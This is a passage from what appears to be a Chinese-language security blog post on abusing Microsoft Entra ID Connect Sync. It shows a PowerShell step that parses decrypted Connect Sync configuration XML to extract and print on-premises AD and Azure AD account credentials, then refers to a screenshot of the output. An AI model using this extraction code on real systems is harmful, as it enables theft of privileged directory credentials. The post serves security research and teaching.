 ```powershell
```

（6）最后，我们从解密出的 “encrypted_configuration” 数据中提取相关凭据信息，最后将获取到的完整登录凭证显示输出。

```powershell
# Parse decrypted results to extract domain, username and password for AD
$adDomain = Select-Xml -Content $adConfigXml -XPath "//parameter[@name='forest-login-domain']" | Select-Object @{Name = 'Domain'; Expression = {$_.Node.InnerText}}
$adUsername = Select-Xml -Content $adConfigXml -XPath "//parameter[@name='forest-login-user']" | Select-Object @{Name = 'Username'; Expression = {$_.Node.InnerText}}
$adPassword = Select-Xml -Content $adDecryptedConfig -XPath "//attribute" | Select-Object @{Name = 'Password'; Expression = {$_.Node.InnerText}}

# Parse decrypted results to extract username and password for AAD
$aadUsername = Select-Xml -Content $aadConfigXml -XPath "//parameter[@name='UserName']" | Select-Object @{Name = 'Username'; Expression = {$_.Node.InnerText}}
$aadPassword = Select-Xml -Content $aadDecryptedConfig -XPath "//attribute[@name='Password']" | Select-Object @{Name = 'Password'; Expression = {$_.Node.InnerText}}

# Display extracted Local AD credentials
Write-Host "[*] Local AD Credentials" -ForegroundColor Yellow
Write-Host "[+]`tDomain: $($adDomain.Domain)"
Write-Host "[+]`tUsername: $($adUsername.Username)"
Write-Host "[+]`tPassword: $($adPassword.Password)"

# Display extracted Azure AD credentials
Write-Host "[*] Azure AD Credentials" -ForegroundColor Yellow
Write-Host "[+]`tUsername: $($aadUsername.Username)"
Write-Host "[+]`tPassword: $($aadPassword.Password)"
```

整理上述代码，最终执行结果如下图所示：

![image-20250925210757235](/assets/posts/2025-10-01-entra-id-tracing-the-abuse-history-of-connect-sync/image-20250925210757235.png)

# Abuse of Connect Sync
